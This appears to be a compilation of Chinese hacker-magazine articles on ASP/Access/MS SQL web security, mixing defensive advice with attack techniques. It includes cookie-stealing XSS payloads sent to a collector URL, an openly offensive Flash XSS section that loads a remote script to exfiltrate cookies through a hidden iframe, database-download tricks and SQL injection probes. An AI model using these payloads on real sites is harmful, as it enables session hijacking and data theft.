再回到前面提到的潜在问题，我们终于可以在这里解决了：在取出数据后依然首先进行判断。因为根据前面说的，这一种间接输入依然有可能出现危险。

说到这里，插一句另类的过滤位置问题：不要把对输入的过滤放到客户端解决，那是可以绕过的！谁能保证你的 VBScript/JavaScript 能起作用，如果别人直接用 NC 或者一个不支持脚本的浏览器呢？

上述两个大的方面，以软件测试的目光来说，显然是没有穷尽所有的分支所导致。在使用对方提交的数据之前，先做一个对方所有可能进入字符的分析列表，然后就每一种输入分支情况进行类型的审核，这是每个代码编写者都应该做的事情。

## 类型正确意味着随意就行？

涉及到语义的问题，要是可能的话，最好还是避开。譬如对于一个整型数字，你输入的确实是一个整型，通过了过滤器，潜在的问题是你的输入在内容上合法吗，或者根本就不应该从你这里获得信息？很多年前就有人提出来，有些注册的模块存在问题：它里面的 id 是通过一个 type=hidden 掩盖后隐藏式提交的，但是我在第一步建立了用户，第二步仍就有可能通过提交内容不合…

脚本小子：在《上册》的《再谈“跨站脚本攻击”——入侵某知名安全站点实例》一文中，我们随着作者的讲述看到了清晰的入侵思路……于是就有了《再谈“跨站脚本攻击”——入侵某知名安全站点实例》一文。简单地说，就是伪造图片进行跨站脚本攻击。有矛，就有盾。我们如何防御伪造图片跨站脚本攻击？况且攻击的目标就是现在仍广泛应用的动网 DVBBS 6.0.0？来，让我们看看如何——

- 适合对象：网页程序员
- 前置知识：ASP、Javascript、HTML
### 伪造图片跨站脚本攻击

文/图 无敌最寂寞[HBU小组]

入侵方法大家都看到了，其实很简单，只不过是一种变相的跨站攻击而已，不过我试过很多的站点，发现这样的攻击确实很有效。

防御方法其实也是很简单的。大家在看那篇攻击的时候会发现，攻击成功的两个关键条件是：

- 对方允许上传图片；
- 对方 upload 文件里没有检查图片文件（如 .gif、.jpg 等）的真实性。

既然知道了攻击的要害，那么防御起来就很简单了。最简单的防御方法就是不允许上传图片，不过这样是治标不治本，而且会连累那些正常上传图片的朋友。那么我们就从第二个要害下手吧。编写一段 ASP 代码来实现对上传的图片文件的真实性检测……

上面的代码其实很简单，大家可以用记事本分别打开一个真实的 GIF 图片看看，开头是不是有个 GIF 啊（图1）。其他的图片都有自己的标志性字节，大家可以看看上面的判断代码就清楚了。当然，如果入侵者足够狡猾，也可以通过伪造图片头部信息来达到欺骗效果。

……字符串过滤与语义安全相关的讨论：对于输入的字符串，感觉上没有过滤也不会有错，因为比较数字之类集合来说，字符串所能容纳的几乎是全部可能输入的集合。常见的是没有过滤造成单引号错误匹配，进而导致了 SQL Injection。严格说这也是语义上的问题，但可通过处理输入中的单引号来保证某种程度上的正确……

令人遗憾的是，如果是整型数据出了语义上的问题，没有什么东西可以替语义背黑锅了，所以没有一个一定程度上通用的解决方案。不过也不要悲观，前面就已经说过，能避开就避开，釜底抽薪不要让可能有语义问题的变量作为输入好了。

仅仅考虑数据库安全的话，所有有威胁的语义问题几乎都出在对数据库的操作上，那么我们只要注意 update/insert 等语句就可以了。如果考虑数据内容的安全性的话，select 也得算上。一般来说，特别关注的是生成的 where 后面的条件语句……我的建议是对于所有可能出现语义问题的整型变量最好都是 Session……

也许有人能提出像对付字符串语义问题一样的有效方法也说不定。不过话又说回来，在语义层面上看对字符串的过滤，不能证明它不安全，但是更重要的是没有人能够证明它安全……

若要深入分析语义，也会突然冒出一大堆奇怪的东西，所以还是就此打住吧，真切地希望同行之间能够多一些这方面的交流！

前面说的也许更多地会用在一些对既有代码的补救上，如果是从头开始构架一个软件的话，上面的仅仅是设计上一些参考。所有的漏洞都是源于设计上的缺陷，一个好的软件应该被证明其模型是正确的……如果你一开始就证明了软件的正确性，我想也不会有漏洞可以给别人钻了。

> 即使 ASP 代码存在安全问题似乎已经变得非常普遍，特别是 SQL Injection 一类的漏洞更是层出不穷……如果问题能够及时打补丁，的确也算是对用户的一个安慰；但长此以往，日复一日，安全问题最终还是难以彻底解决。看来，从软件最初设计时就开始考虑安全问题，才是最重要的！

## 脚本攻击防范（SCRIPT ATTACK DEFENCE）
图1

```html
<script language=javascript>window.alert(document.cookie)</script>
或者
<script language=javascript>window.open('http://.../info.asp?msg='+document.cookie)</script>
```

不过，我们这个代码也做了充分的考虑，如果一旦通过取前几个字节无法判断的话，那么就看下一部分了！代码如下：

通过对这些代码的分析我们可以发现，由于需要 cookie 来实现跨站攻击，那么在入侵代码里都会出现“cookie”这个关键词。我们可以通过读取上传图片信息并判断是否包含“cookie”来识别真假图片。实现代码如下：

```vb
else
strBuff = GetBytes(flnm, 0, -1)
lngSize = len(strBuff)
flgFound = 0
strTarget = chr(255) & chr(216) & chr(255)
flgFound = instr(strBuff, strTarget)
if flgFound = 0 then
  exit function
end if
strImageType = "JPG"
lngPos = flgFound + 2
ExitLoop = false
do while ExitLoop = False and lngPos < lngSize
  do while asc(mid(strBuff, lngPos, 1)) = 255 and lngPos < lngSize
    lngPos = lngPos + 1
  loop
  if asc(mid(strBuff, lngPos, 1)) < 192 or asc(mid(strBuff, lngPos, 1)) > 195 then
    lngMarkerSize = lngConvert2(mid(strBuff, lngPos + 1, 2))
    lngPos = lngPos + lngMarkerSize + 1
  else
    ExitLoop = True
  end if
loop
```

```vb
<%
dim fl, fs, fm, flnm, sEvent
flnm = Server.mappath("/pic/upload/temp.gif")
Set fs = CreateObject("Scripting.FileSystemObject")
set fm = fs.OpenTextFile(flnm,1,FALSE,FALSE)
sEvent = fm.ReadAll
sEvent = UCase(sEvent)
If Len(sEvent) < 150 Then
  response.write "哪有这么小的图片哦？<BR>"
else
  response.write "正常，放行~<BR>"
end if
If instr(sEvent,"COOKIE") = 0 Then
  response.write "好漂亮的图片哦"
else
  response.write "怎么？想黑我？"
end if
fm.close
Set fs = Nothing
%>


```

通过上面的这段代码，读出整个上传文件，然后判断是否是真实的图片（这里需要对图片格式有一定了解）。其实从编程角度来说，需要统筹考虑各种可能情况。一般正常图片不会只有极短的几十到一百多字节，而伪造图片常常会很短；另外构造伪造图片时某些特定代码通常会出现。

通过上面的分析，我们可以利用多个判断关键来识别真假图片。防御往往比攻击更难，但只要在上传文件检查上做严格控制，这类伪造图片的跨站攻击基本可以被杜绝。总之，编写代码时若能站在攻击者角度思考，代码安全性会更高。

**脚本小子：**作为一个 ASP 程序员，也许当初没有想到现在的“Web+数据库”的方式会这样尴尬，面对已经泛滥的 mdb 数据库被下载问题，大多数的程序员只能是束手无策。可以说如何防止 mdb 数据库被下载已经成了当前 ASP 和数据库运用中的一大“头疾”，但既然是“病”，就应该有“药”来治，那“药方”是什么呢？

### Access 数据库安全攻防

文/图 史昊做的！

网络是没有绝对安全的！这是一句经典的名言，我也不用多说了。最近一直在研究脚本方面的问题，对这句话有很深的感触，在网络安全的攻击和防御中才突然发现，原来攻防间的对抗是这样的让人痴迷！不发感叹了，下面主要为大家演示 Access 数据库下载的攻与防。

### 攻击手法

- 1. **发挥想像力修改数据库文件名**

修改数据库名，其目的就是防止我们猜到数据库而被下载，但是万一我们猜到数据库名，就直接可以下载了，所以这不能保证100%不能被下载。猜解数据库常用的办法就是写程序去猜解数据库名，判断 Web 返回的是不是 404 错误，如果提交一个 MDB 文件，没有返回 404 错误，那证明猜对了，可以直接下载。当然，这有一定的局限性。因为如果数据库名非常复杂，会产生大量的日志，管理员可能早发现了，况且猜解的时间会变得很长。

- 2. **数据库名后缀改为 ASA 和 ASP 等不一定能防止被下载**

IIS 在通过 asp.dll 处理 .asp 扩展名文件的时候，对 <%%> 以外的内容不做任何处理就直接输出，但是 MDB 文件中如果没有 <%%> 之类的 ASP 标识符，我们直接在 IE 中输入 URL 返回在 IE 中的数据，就是 MDB 文件的数据。我们直接用 FLASHGET 之类的软件下载后改名就可以用了，这也是现在非常多人采用的防止数据库被下载的办法，算是一个误区吧（图1）！
- 3. **数据库名前加“#”一定能防止被下载**

有些人误认为：“只需要把数据库文件名前加上 #，然后修改数据库连接文件（如 conn.asp）中的数据库地址。原理是下载的时候只能识别 # 号前面的部分，对于后面的自动去掉。”这样是比较安全的，但它只是对于一般的人来说无法下载，因为他们不知道也没有去了解有关 IE 编码的技术——在编码中我们可以用 %23 来代替 # 号，例如我们有一个数据库是：同样能够下载，如图2所示。

```text
http://www.xxx.com/data/#datapro.mdb
直接在IE中输入：
http://www.xxx.com/data/%23datapro.mdb


```
- 4. **加密数据库下载后可轻易被解出数据库密码**

同时还有一部分人认为：把 Access 数据库进行加密，就算对方得到数据库也没有办法得到里面的任何信息。这种理解大错特错，Access 数据库的加密机制非常脆弱，加密后数据库系统通过将用户输入的密码与某一固定密钥进行“异或”来形成一个加密串，并将其存储在 *.mdb 文件从地址“&H42”开始的区域内，用程序可以轻松地写出破解代码。

推荐一款比较老，但非常实用的破解数据库密码程序 accesskey.exe（详细代码请查看光盘“源代码”栏目，按照文章名查找即可。），如图3所示。

图3

图4

## 5．特殊请求让脚本解析出错可得到数据库路径

在网络上有很多人直接采用以下代码来连接数据库：

```asp
...
DB_Path = "/Data/ABCD1234!@#1po.mdb"
DB_String = "Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath(DB_Path)
Set Conn = Server.CreateObject("ADODB.Connection")
Conn.Open DB_String
...
```

图5

数据库文件名也够复杂了，用程序破解我想是没有人想去尝试的。像这样的连接方式我们可以直接取得它的数据库路径，但是方法危险性太大，暂且不公布。这里只为大家提供临时补丁，在 `Conn.Open DB_String` 上面加上一句话：`On Error Resume Next`，就 OK 了。

这里的井号并不是用来做防止下载的。防止下载的过程我们已经作了解释。当你有多个 MDB 文件，并放在同一个目录下，如 12yes 的整站系统。如果我们猜到管理员 MDB 文件的位置，并且从另一个系统中得到 SQL 注入漏洞的同时，可以采用 ACCESS 跨库查询的方法来取得管理员库中的记录。如果我们在库名前面加上井号的时候，就算你猜测到了我们也不怕，提交 `select * from d:\web\data\#data.asp` 类似的 SQL 查询语句，系统会提示出错，因为井号在 SQL 语法中有表示日期的作用。语法出错自然也就不会去执行查询条件了。

## 防范措施

上面我们介绍了怎么去下载数据库，下面再为大家讲解一些防止数据库被下载的方法。

### 1．针对虚拟主机

首先在 MDB 文件中建一个表，假设表中一字段名为 NotDownLoad，在表中建一个字段，字段中填入：`<%='a'-1%>`，如图4所示。再把数据库扩展名改为“.asp”。为什么要取名为 `<%='a'-1%>` 呢？其实 `'a'-1` 这里你可以随意输入，只要不是正确的 ASP 语句就行。因为这样把扩展名改成“.asp”后在 IE 中输入时，遇到了 `<%%>` 它就会去解释之间的代码，呵呵，结果会提示出错，所以数据库绝对不会被正确地下载（图5）。

此时的你是不是认为非常安全了？NO，我们还要在数据库名前加上一个井号，如：`#Data.asp`，这里的井号并不是用来做防止下载的。

我们认为比较安全的数据库就应该是 `#文件名.asp`，并且建一个临时表，表中有一字段输入 ASP 代码，防止 ASP 被正确地解释。

### 2．针对托管主机

这种防下载的方法就太好办了。把你的数据库放到 IIS 以外的目录，那不管是谁都不能够再下载了。如你的 Web 目录在 `D:\Web\WebSite` 目录下，把数据库保存在 `D:\Web\Data` 目录下就一切 OK 了。通过上面的防护策略，现在你的数据库已经是比较安全了，现在的漏洞都已经堵上了。当然，不要认为这样就高枕无忧了，如果某天你发现《黑客防线》上又公布了这方面很大的漏洞，那请小心！说不定又能被下载数据库了！

## 警示 ASP.NET 与 Access 的安全分析

**脚本小子：** 随着 Internet 的发展，Web 技术进步也日新月异，人们对网络安全也越来越关心。今天我们来谈一下 IIS+ASP+Access 的安全问题。IIS+ASP+Access 作为一种典型的服务器端网页设计技术解决方案，被广泛应用在互联网各个领域中，同时也是被攻击的对象……

目前，ASP（Active Server Pages）技术已风靡全球，它给开发者提供了基于脚本的直观、快速、高效的应用开发手段。Access 数据库由于操作简单、界面友好等特点，具有较大的用户群体。目前 IIS+ASP+Access 是中小型 Internet 网站的首选方案。不过，该解决方案在带来便捷的同时，也带来了严峻的安全问题。

应用开发商通过使用加密工具，达到 Web 主机和 Web 客户不能查看或修改源代码的目的。这里提供一个解密软件 **ZWDECODE.EXE**，可对经过 MS Script Encode 加密的 ASP 文件进行解密并还原源代码。

例如，可以把类似如下的代码：

```html
<SCRIPT language="JScript.Encode">
#@~^QwIAAA==@#@&...（加密内容）
</SCRIPT>
```

还原成：

```html
<SCRIPT language="JScript">
function verifyCorrectBrowser(){
  if(navigator.appName=="Microsoft Internet Explorer"){
    if(navigator.appVersion.indexOf("5")>=0) return true;
    else return false;
  }
}
function getAppropriatePage(){
  ...
}
</SCRIPT>
```

## IIS+ASP+Access 安全隐患分析

IIS+ASP+Access 解决方案的主要安全隐患来自 Access 数据库的安全性，其次在于 ASP 网页设计过程中的安全意识和措施。

### 1. 数据库被下载

数据库被下载是常见问题。在 IIS+ASP+Access 网站中，如果攻击者获得或猜到数据库存储路径和文件名，则数据库可被下载到本地。例如数据库存储路径为 `URL/database`，攻击者访问 `URL/database/数据库名.mdb` 即可能直接下载。

### 2. 数据库被解密

Access 数据库加密机制较简单。即便设置密码，解密也相对容易。其机制通常通过用户输入密码与固定密钥“异或”形成加密串并存储在 `.mdb` 文件特定区域。只要数据库被下载，信息安全性将大幅下降。

### 3. ASP 页面的安全性

- （1）源代码安全性隐患。由于 ASP 程序采用脚本语言，源代码保护能力较弱。若黑客获取 ASP 源代码将非常危险。虽然可加密，但多数通过 MS Script Encode 完成，仍存在被还原的风险。

ZWDECODE.EXE 是一个运行在 DOS 命令行下的工具，其语法示例如下：

```bash
ZWDECODE inputfile outputfile
```

`inputfile`：要被解密的文件名称，包括相对于当前目录的路径信息。  
`outputfile`：要生成的输出文件的名称，包括相对于当前目录的任何需要的路径信息。

本程序只能用于恢复自己丢失源代码的程序，不可用于其他用途。为了安全起见，在解密前要做好备份。否则……自己看着办，呵呵。

- （2）程序设计中容易被忽视的安全性问题。其实这个问题就是我们经常说的 SQL Injection。ASP 代码使用表单实现交互，而相应的内容会反映在浏览器的地址栏中，如果不采用适当的安全措施，只要记下这些内容，就可以绕过验证而直接进入某一页面。

例如在浏览器中输入：

- `http://ip/abc.asp?id=1 and 1=1` 返回某个具体页面；
- `http://ip/abc.asp?id=1 and 1=2` 返回 500 内部服务器出错；
- `http://ip/abc.asp?id=1` 一样返回 500 出错。

利用这个 SQL Injection 漏洞，我们很快就可以知道服务器用的是什么数据库等信息。因此，在验证或注册页面中，必须采取特殊措施来避免此类问题的产生。

## 提高 IIS+ASP+Access 网站安全性的方法

### 1. 防止数据库被下载

由于 Access 数据库加密机制过于简单，有效地防止数据库被下载，就成了提高 ASP+Access 解决方案安全性的重中之重。以下两种方法简单、有效。

- 1. 非常规命名法。为 Access 数据库文件起一个复杂的非常规名字，并把它放在几个目录下。这样黑客想通过猜的方式得到 Access 数据库文件名就很难了。
- 2. 使用 ODBC 数据源。在 ASP 程序设计中，如果有条件，应尽量使用 ODBC 数据源，不要把数据库名写在程序中。否则，数据库名将随 ASP 源代码的失密而一同失密。

```asp
DBPath = Server.MapPath("/akjt/kgf/acc/av5/faq9f1.mdb")
conn.open "driver={Microsoft Access Driver (*.mdb)};dbq=" & DBPath
```

可见，即使数据库名字起得再怪异，隐藏的目录再深，ASP 源代码失密后，也很容易被下载下来。如果使用 ODBC 数据源，就不会存在这样的问题：`conn.open "ODBC-DSN名"`。

### 2. 对 ASP 页面进行加密

为有效地防止 ASP 源代码泄露，可以对 ASP 页面进行加密。我们曾采用两种方法对 ASP 页面进行加密：一是使用组件技术将编程逻辑封装入 DLL 之中；二是使用微软的 Script Encoder 对 ASP 页面进行加密。使用组件技术存在的主要问题是每段代码均需组件化，操作比较繁琐，工作量较大，而使用 Encoder 对 ASP 页面进行加密，操作简单，收效良好。Script Encoder 的运行程序是 SCRENC.EXE，使用方法是：

```text
SCRENC [/s] [/f] [/x] [/l defLanguage] [/e defExtension]
inputfile outputfile

/s：忽略被屏蔽输入
/f：指定输出文件是否覆盖同名输入文件
/x：指定是否在 asp 文件的顶部添加 @Language 指令
/l defLanguage：指定缺省的脚本语言
/e defExtension：指定加密文件的扩展名
```

### 3. 使用 Security Wizard 设置 Access 数据库的安全性

可以使用 Security Wizard 设置数据库的安全性。为此，请执行以下步骤。

- 1. 打开要设置安全性的数据库。
- 2. 在“工具”菜单中，指向“安全”，然后单击“设置安全机制向导”。将显示“设置安全机制向导”对话框。因为我们要创建一个新的工作组信息文件，因此请选择此选项，然后单击“下一步”。在“设置安全机制向导”对话框的第二个屏幕中，为工作组信息文件键入一个新名称，或者接受默认名称。键入一个工作组 ID（WID）。WID 唯一标识了此工作组文件的 Admins 组。下一步，在相应的文本框中键入您的姓名和单位。虽然这些输入是可选的，但最好还是填入，因为只有知道这些信息的人才能重新创建工作组信息文件。
- 3. 您也可以选择是否使用此工作组信息文件作为所有数据库的默认文件，或者只是用于这个特定的数据库。单击“创建快捷方式，打开设置了安全机制的数据库”选项，然后单击“下一步”。
- 4. 在下一个屏幕中，可以选择希望向导设置其安全机制的对象。默认情况下，向导将为所有现有对象和所有新创建的对象设置安全机制。单击“下一步”。
- 5. 在下一个屏幕中，您可以选择可选的具有特定权限的安全组。我们强烈建议您使用组来管理用户的访问权限，而不是赋予每个用户特定的权限。选择任何其他组账户，然后单击“下一步”。在此屏幕中，您可以为 Users 组设置特定的权限。因为所有用户都自动成为 Users 组的成员，在此选择的任何权限都会应用于所有用户，所以最好限制该组的权限，或者保留默认设置——没有任何权限。单击“下一步”。
- 6. 在下一个屏幕中，您可以向工作组信息文件中添加用户。还可以为每个用户选择密码和个人 ID（PID）。Access 使用 PID 和账户名为工作组标识唯一的用户。添加用户并单击“下一步”。
- 7. 在最后一个屏幕中，为不具有安全设置的数据库的备份选择一个名称。保护好此原始数据库的备份。

> Nspiner：个人标识符（PID）不是密码。它被加密并与名称一起创建了一个唯一的系统标识符（SID），用于标识用户。

是很有必要的，以防万一丢失或损坏了具有安全设置的数据库。单击“完成”。原始数据库将用 `.bak` 扩展名保存。

> **NSpiper：** 当创建工作组信息文件后，Security Wizard 将创建一个报表，其中包含重新创建工作组信息文件所需的所有信息。您必须保存这些信息，以便在原始文件丢失或损坏时重新创建文件。

- 8. 单击“完成”后，Security Wizard 将加密数据库，然后要求您使用新的工作组信息文件重新打开进行了安全设置的数据库。

### 4. 使用安全验证的页面，也是目标黑客的方向

.NET 平台及其 ASP+ 所提供的强大开发功能是每个程序员所不能忽视的。ASP+ 提供了 3 种主要的身份验证方式，即 Windows、Cookie 和 Passport……在企业级应用中，使用 Cookie 方式和 SSL、IP 限制等一些网管技术同样可以实现一定的安全性。

我们先来介绍比较简单的一种：为防止未注册的用户绕过注册界面直接进入应用系统，我们采用 Session 对象进行注册验证……在此，利用 Session 对象进行注册验证：

```asp
<%
UserID = Request("UserID")
Password = Request("Password")
If UserID <> "hrmis" Or Password <> "password" Then
  Response.Write "账号错误"
  Response.End
End If
Session("Passed") = True
...
If Not Session("Passed") Then
  Response.Redirect "Login.asp"
End If
%>
```

```asp
Response.Redirect "Login.asp"   '如果未通过验证，返回 Login 状态
End If
%>
```

懂 ASP 编程的就会知道，用这一小段代码就可以防止未经注册的用户绕过注册界面直接进入应用系统。我们再来介绍另一种基于 Cookie 的方法。你需要建一个如下内容的 `config.web`，并将它放在 `c:\inetpub\wwwroot`（IIS 缺省目录）下……

```xml
<configuration>
  <security>
    <authentication mode="Cookie">
      <cookie decryptionkey="autogenerate" loginurl="/login.aspx" cookie="ASPXAUTH" />
    </authentication>
    <authorization>
      <deny users="?" />
    </authorization>
  </security>
</configuration>
```

该配置文件声明用 Cookie 方式验证。在你访问该目录及其子目录下的 aspx 文件时，如果你没有认证的 Cookie，它就会重定向到 `login.aspx`。如果你需要一个不需要身份认证的目录（可放用户申请的程序），则可建一个如下的 `config.web` 并放在该目录下：

```xml
<configuration>
  <security>
    <authorization>
      <allow users="*" />
    </authorization>
  </security>
</configuration>
```

## 程序设计

你需在 root 目录下建立 `Default.aspx` 和 `login.aspx` 这两个 ASP+ 程序。`login.aspx` 程序内容代码详见光盘杂志相关栏目的 `login.txt`。具体执行时，当一个未经认证的用户浏览你的网站的 aspx 文件时（注意：Cookie 认证只对 aspx 文件起作用），系统发现该用户没 Cookie，于是将它重定向到 `login.aspx`……

## BBSXP 渗透补缀

文 / 起夜家

脚本小子：在《上期》中，我们分析了 BBSXP 论坛中存在的几个漏洞和几个可能存在隐患的地方。为了方便那些使用该论坛软件的朋友能够及时打好补丁，这里我们继续攻防结合的传统，给大家带来防御的方法，本文提到的补丁方法可以帮助大家抵抗可能到来的攻击。

作为被调用的东西，自己保证自己的安全比要求别人来保证自己的安全要合理得多，所以要补上这些漏洞，老老实实地从 `setup.asp` 开始修改比较好。前面说到的那些潜在有问题的子过程，有一个比较简单而且有效的方法：对 request 过来而且作为 SQL 语句构造部分的变量，统统加上过滤单引号的语句。

```vb
if Request.Cookies("username")<>empty then
' 简单的修改为：
if Request.Cookies("username")<>empty then
sql="select * from [user] where ='" & replace(Request.Cookies("username"),"'","") & "'"
```

其他相应的地方也可以同理修改。`usertop.asp` 中 `Order` 出的问题，改起来稍微有点麻烦，因为总觉得直接从代码意义来看，怎么过滤都不合理。好在这个地方要利用起来很有些难度，就用经验来保证一下吧，第五行中过滤空格：

```vb
order=HTMLEncode(Request("order"))
改为：
order=replace(HTMLEncode(Request("order"))," ","")
```

这样子的过滤对付一般的是没问题了，但是用作分隔符号的还可以是 `\t` `\r` `\n` 等。如果要完全准确，挨着挨着过滤也不是不可以，就怕挂一漏万。或者我们可以换一个思路：这里要求的是表名，而表名长度是很有限的，姑且就取前 20 个字符。

```vb
order=left(HTMLEncode(Request("order")),20)
```

这个做法有点毒，基本上能够保证安全了。但如果这样写的话还是有点投机取巧的味道，严谨的人来看，多半觉得有些不爽。堵上这种入口的最好方法是从逻辑上断绝注入者的念头：这个 order 的集合是严格表名的集合，而表名的个数是有限的，就枚举一番吧。

```vb
if order<>"experience" and order<>"regtime" and order<>"posttopic" and order<>"postrevert" and order<>"money" and order<>"landtime" then order="experience"
```

很长吧？一共有 43 项，你要是愿意的，都加上去好了。不过提醒一下，有几个不能加，比如 `userpass`。文中还有提到 `setup.asp` 中一些子过程可能潜在有问题，因为还没有看到具体出现的时候，姑且先放过它们。另外提到的不合法用户名能查看所有用户的缺陷，因为不知道是不是故意设置成为如此，所以也就不动它了。

最后似乎还说到 IE 中修改 Cookie 键值里“=”没有正确处理的缺陷，这个漏洞就不是我们管辖的范围了。

一定的 Web 浏览器信息、带有相应 Cookie 的 HTTP 请求被认为是来自同一 Web 浏览器，所以要防止被人使用 Sniffer 等方法非法截获 Cookie 信息。你需要考虑使用 SSL 或其他安全的通信链路加密方法。使用 Cookie 的身份验证方法再结合各种加密手段以及操作系统完善的安全配置，就可以为大多数需要安全认证的应用提供足够支持。

## 编后语

> 通过上面的介绍，大家对 ASP+Access 网站安全和隐患已有一定了解。有矛必有盾；有攻必有防，二者相互制约。本文主要是提醒大家在以后的编程、系统及其他软件设置方面一定要慎之又慎，努力提高国内网站的安全系数。

脚本小子：我一直在追踪 Flash 跨站攻击，因为这是最近的热点。热爱脚本攻击的脚本小子当然不能放过啦，这不，我就约来了一个作者，为我们广大黑友讲述如何防止 Flash 跨站攻击弹出 IE 窗口……如果你也正在为这个问题而头疼的话，不妨来阅读本文——

**难度等级：低**

**前置知识：Flash 脚本语言，Javascript 语言**

## 也说跨站脚本攻击的隐蔽
### ——如何防止 Flash 跨站攻击弹出 IE 窗口

icyfoxloveiace / 冰狐浪子

前些天一直忙着学习 Win32 汇编，一直懒得写文章，这些天来好像 Flash 跨站攻击声闹得挺凶的，但在实施 Flash 跨站攻击时那个弹出的 IE 窗口很容易引起别人怀疑，从而使得攻击失败……下面大家和我一起来解决这个不大不小的问题，让 Flash 跨站攻击更“完美”吧！

一般来说，大家在进行 Flash 跨站攻击时都是自己做一个 Flash 动画，并在第 1 帧中加入用于跳转到其他 URL 的 ActionScript 脚本函数，如下：

```javascript
getURL("javascript:window.open('http://用于收集Cookie的网页地址?'+document.cookie),'_self')
```

然后把这个 Flash 动画置于论坛中的签名、帖子或短消息中，用来获得管理员或用户的 Cookie，从而得到管理权限，进一步伺机控制整个站点……我们先分析一下上面的 ActionScript 脚本，它使用 getURL 跳转到一个使用 JavaScript 协议的 URL。

在 JavaScript 中，window.open 的第二个参数可指定打开窗口名称，例如 `_media`、`_blank`、`_parent`、`_search`、`_self`、`_top` 等。假如我们以 `_search` 来打开窗口，不是就没有弹出的 IE 窗口了吗？ActionScript 脚本改为：

```javascript
getURL("javascript:window.open('http://用于收集Cookie的网页地址?'+document.cookie,'_search')","_self")
```

当然，这样做会打开搜索面板，也会引起怀疑，但却可以躲过那些关闭弹出窗口软件的追杀！姑且也算一种方法吧……既然支持 JavaScript 啦，还有啥不能解决呢？

```javascript
jsurl='http://www.godoyy365.com/vodemuma/icyfox.js';
replace(/\//g,'\\/');
window.open("file:javascript:document.all.tags('SCRIPT')[0].src='"+jsurl+"';eval();","icyfoxloveiace");
```

使用了 Javascript 协议把自己网站上的一个 js 代码文件插入到了本地文件中，同样的道理我们也可以把一个 js 代码文件插入到进行跨站攻击的论坛网页中，相应的 ActionScript 脚本改为：

```javascript
getURL("javascript:document.all.tags('SCRIPT')[0].src='http://.../icyfox.js'", "_self")
```

其中 icyfox.js 的内容如下：

```javascript
cookieurl='http://用于收集Cookie的网页地址?'
cookie=''+escape(document.cookie);
/* 这里使用了 escape() 对 cookie 编码，用来防止 cookie 中的一些特殊字符 */
document.body.insertAdjacentHTML('beforeEnd','<iframe WIDTH=0px HEIGHT=0px style="display:none;" src="'+cookieurl+'" ></iframe>');
/* 这里使用了 insertAdjacentHTML 在 body 的最后插入了一个不可见的框架 */
```

这里主要是利用了可以在一个网页中引入不同域中的 javascript 代码文档，而且所引入的 javascript 代码文档会和本网页融为一体的特点！

至此，Flash 跨站攻击弹出 IE 窗口的问题算是解决啦！当然如果你愿意，在 icyfox.js 中加个网页木马之类的我也无话可说！最后再顺便说一句，它同样可以用于在其他类型的跨站脚本攻击中隐藏弹出的 IE 窗口！比起利用 Microsoft.XMLHTTP 控件发送 COOKIE 要随意得多，因为它不会像 Microsoft.XMLHTTP 控件那样只能发给当前服务器。文中提到：之前曾想过在网页中用 insertAdjacentHTML 方法来注入 HTML 语句，勉强可以做到发送 Cookie 不出现 IE 窗口，但实际使用有时会弹 IE 出错。据分析，这是因为 Cookie 中存在一些特殊字符，若未正确处理或编码，才会在实际使用中有时遇到 IE 出错，所以上面代码用了 escape() 对 Cookie 编码，在接收到 Cookie 后请注意用 unescape() 来解码！

---

## 打造抵御 SQL 注入攻击的 MS SQL 服务器

（文 / aman）

**脚本小子：** 众所周知，如今使用 SQL INJECTION 技术入侵检测网站安全成了主流，那相对于这样的攻击方式来讲，如何配置一台安全可靠的 MS SQL Server 服务器呢？让它有足够的强度抵御攻击？本文将以实例的方式和大家共同探讨。

MS SQL Server 的安全性问题一般是由于配置不当而引起，攻击者可通过这样的配置获得很高的权限来执行 SQL 指令（如：sp_addlogin、xp_subdirs 的存储过程），配置一台安全可靠的 MS SQL Server 对你的网站整体安全会起到关键性作用！让我们一起来看一看。

首先，用于程序连接数据库的用户应拒绝使用服务器角色组成员，应使用数据库用户角色组的成员，最好的方法是只给 db_reader、db_writer 权限；遇到有需要备份的用户请另行新建用户——注意：只要有备份权限就可以通过 BACKUP 得到 WEBSHELL！使用 db_reader、db_writer 不能直接用 SQL 指令建表，但是对于网站的安全也起到了至关重要的作用。入侵者无法使用 create table，想进一步获取服务器信息，无处保存。当然，低权限也会给入侵者带来读表的权限，所以说合理的数据库权限，给你的网站安全加了一道墙。

### 1. 用户权限分布

- 用户分配的权限有两种：
  1. 网络空间提供商提供的 MS SQL 账号，一般这类型账号的权限是 db_owner，也就是数据库所有者，拥有管理个人数据库文件的所有权限，针对自己的那个库文件，无法跨越别人的库文件，针对 MASTER 还有一定的权限。
  2. 主机托管，这类型的主机的 MS SQL 权限，有很大一部分能达到 SYSADMIN 服务器角色组，相对来说这类型网站被入侵的几率达到 99%。

权限的安全合理配置是至关重要的，对于使用网站程序调用 SQL 数据库的配置更加重要。

### 2. 数据库存储过程的分配

删除所有对数据库可有可无的存储过程、对注册表操作的扩展过程：

```sql
xp_regaddmultistring
xp_regdeletekey
xp_regdeletevalue
xp_regenumvalues   -- 通过它可获得网站目录
xp_regread         -- 对 Public 可以执行，通过它可获得默认网页根目录“\”
xp_regremovemultistring
xp_regwrite
```

很多人只留意到这几部分，还有一组：

```sql
xp_instance_regaddmultistring
xp_instance_regdeletevalue
xp_instance_regenumkeys
xp_instance_regread
xp_instance_regremovemultistring
```

部分重要的存储过程（以下这些存储过程使用权限达到 DBO 以上）：

```sql
xp_cmdshell
xp_dirtree
xp_subdirs
xp_fileexist
xp_getfiledetails
sp_OACreate
sp_OAGetErrorInfo
sp_OAGetProperty
sp_OAMethod
sp_OASetProperty
sp_OAStop

-- 使用示例
xp_makecab 'c:\test.cab','mszip','c:\inetpub\wwwroot\SQLInject\login.asp','c:\inetpub\wwwroot\SQLInject\securelogin.asp'
```

如果入侵者使用 conn.asp、dbconn.asp、databaseconn.asp 这类配置文件，就能找出目录，再用上面的命令就可以把你的程序打包再下载，你的 SQL 密码将被一览无疑（建议连接密码文件加密）：

```sql
xp_makewebtask
xp_runwebtask
xp_readerrorlog
exec master.dbo.xp_readerrorlog ...
```

### 3. 程序的安全

程序的安全问题危害到了 MS SQL，下面是一些注意事项。

- 书写程序，带值输入应详细过滤（如 `'`、`;`、`=`、`update`、`select`、`insert`、`create`、`--`、`exec`、`execute` 等执行指令关键字）。

有人已经研究出如何避过“过滤”来得到权限，但是如果你在语句中加入：

```vb
if instr(request('id'),'''')>0 or instr(request('id'),'insert')>0 or instr(request('id'),'--')>0 then
    response.write "<script language=script>javascript:history.go(-1)</script>"
    response.end
end if
```

